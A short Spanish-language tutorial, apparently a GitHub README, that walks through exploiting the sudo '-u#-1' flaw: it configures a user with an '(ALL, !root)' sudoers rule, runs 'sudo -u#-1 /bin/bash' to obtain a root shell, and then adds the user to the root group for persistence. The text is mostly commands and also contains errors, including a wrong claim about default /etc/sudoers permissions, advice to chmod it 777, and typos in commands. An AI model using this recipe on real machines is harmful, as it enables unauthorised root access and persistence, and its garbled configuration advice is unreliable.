 <img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/sudo/blob/master/sudo.png">

#0.- Por defecto /etc/sudoers tiene permisos chmod 775. 

Intentamos para editar sin problemas el fichero sudoers $chmod 777 /etc/sudoers  y volvemos a restablecer después los privilegios chmod 755 /etc/sudoers

#1.- Editamos el fichero /etc/sudoers con 

$usermod -aG sudo antonio

$gpasswd -a antonio sudo

$sudo visudo 

#2.- Añadimos la linea con el usuario antonio 

#User privilege specification

root ALL=(ALL:ALL) ALL

antonio ALL=(ALL) /usr/bin/id

#4.- Ejecutamos: 

$su antonio

$sudo id

$sudo whoani

$sudo -u antonio id

#5.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo

#6.- Modificamos la línea

antonio ALL=(ALL, !root) ALL

#7.- Explotamos la vulnerabilidad con sudo -u#-1

$chmod 755 /etc/sudoers

$sudo -u#-1 /bin/bash

#whoami

root

#8.- ya somos root!

exit

#9.- Otro si: añadimos en la línea sudo de /etc/group a antonio y nos hacernos persistentes en la maquina:

usermod -aG root antonio

$sudo antonio

$sudo su

#10.- ya somos del grupo sudo y podemos elevar a root!

Editamos y eliminamos de sudoers la linea
antonio ALL=(ALL, !root) ALL

